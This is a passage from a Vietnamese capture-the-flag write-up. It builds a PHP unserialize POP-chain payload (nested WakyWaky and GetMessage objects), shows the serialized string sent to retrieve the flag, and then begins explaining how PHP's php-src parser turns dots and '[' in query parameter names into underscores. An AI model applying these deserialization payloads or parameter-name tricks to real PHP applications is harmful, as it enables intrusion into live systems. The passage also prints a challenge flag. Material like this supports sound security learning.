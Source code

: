 Kêt hợp lại ta được:
```Php
$message = new GetMessage("a");
$message->receive = "HelloBooooooy" ;
$waky1 = new WakyWaky();
$waky1->msg = $message;
$waky2 = new WakyWaky();
$waky2->msg = $waky1;
$se = serialize($waky2);
echo $se;
// O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
```
Gửi payload: `O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}`

Nhận được flag:

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/336153498_249468674081357_3460841333406106210_n.png?_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=BAVH5GmM1E0AX82M8-o&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTBVZEeNvddcp2ekXpgnluJm3TMIsy7amdJKZr7CCw92A&oe=6437E7A1)
> Flag: uns3r14liz3_p0p_ch41n_r0cks

# 7. Challenge 10 (Chết)

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335845052_765086255019549_4644634981546577279_n.png?stp=dst-png_s206x206&_nc_cat=103&ccb=1-7&_nc_sid=aee45a&_nc_ohc=wcAbHAwwYMoAX9uqbvY&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRMZbpoJXNVNpeXJyWBHMsTHCSdsjxYpEhXfXhgZ7LrCQ&oe=6439386A)

[https://github.com/php/php-src/blob/php-7.4.33/main/php_variables.c#L68](https://github.com/php/php-src/blob/php-7.4.33/main/php_variables.c#L68)
Ta thấy thì ở đấy nếu chúng ta  gửi `?get_flag.php=abc` thì khi đó php sẽ phân tích cú pháp này thành `$GET[get_flag_php]=abc` do php đã replace `.` thành `_` trong trường hợp này.
#### Php
```Php
/* ensure that we don't have spaces or dots in the variable name (not binary safe) */
for (p = var; *p; p++) {
    if (*p == ' ' || *p == '.') {
        *p='_';
    } else if (*p == '[') {
        is_array = 1;
        ip = p;
        *p = 0;
        break;
    }
}
```

Nếu gặp ký tự `[` thì nó sẽ break luôn vòng for mà không check tiếp nữa.Tuy nhiên bây giờ thì nên thay `[` ở đâu.

Và sau khi lướt xuống 1 chút thì ta thấy nếu có ký tự `[` thì nó sẽ bị chuyển đổi thành `_`:
```Php
    /* PHP variables cannot contain '[' in their names, so we replace the character with a '_' */
    *(index_s - 1) = '_';

    index_len = 0;
    if (index) {
        index_len = strlen(index);
    }
    goto plain_var;
    return;
```
